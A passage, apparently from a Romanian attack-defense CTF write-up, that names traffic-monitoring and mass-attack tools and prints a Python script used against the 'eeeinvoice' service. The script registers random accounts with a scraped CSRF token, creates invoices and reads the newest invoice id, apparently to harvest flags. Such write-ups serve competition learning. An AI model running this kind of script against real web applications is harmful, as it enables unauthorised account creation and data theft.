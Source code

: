 * [Tulip](https://github.com/OpenAttackDefenseTools/tulip) - pentru a monitoriza traficul
* [DestructiveFarm](https://github.com/DestructiveVoice/DestructiveFarm) - pentru a ataca toate echipele simultan

<a name="eeeinvoice"></a>
## eeeinvoice - A/D

Un exemplu de atac folosit:

```py
#!/Users/adragos/miniconda3/bin/python

import random
import sys
import json

if len(sys.argv) < 2:
    print(f"Usage: {sys.argv[0]} <target_ip/team_id> [flagstore json]")
    sys.exit(1)

ip, team_id = sys.argv[1].split('/') if '/' in sys.argv[1] else (sys.argv[1], None)
flagstore = json.loads(open(sys.argv[2],"r").read() if len(sys.argv) > 2 else "[]")

ip = ip + "2"

import requests

url = "http://"+ip+":8000/"

import random
import string

s = requests.Session()

r = s.get(url + "register")
csrf_token = r.text.split('_token" value="')[1].split('"')[0]

print(csrf_token)

username = ''.join(random.choices(string.ascii_lowercase + string.digits, k=10))
password = ''.join(random.choices(string.ascii_lowercase + string.digits, k=10))
email = username + "@bitsentinel.ro"

data = {
  "_token": csrf_token,
  "name": username,
  "password": password,
  "email": email,
  "password_confirmation": password
}

r = s.post(url + "register", data=data)

data = {
  "_token": csrf_token,
  "recipient": username,
  "amount": random.randint(1, 1000),
  "description": "7vwp6i6vglw0kqy_2654 Here I might add a flag ..."
}

r = s.post(url + "invoice/create", data=data)

last_id = int(s.get(url + "dashboard").text.split('<td class="py-4 px-6">')[1].split('</td>')[0])

```
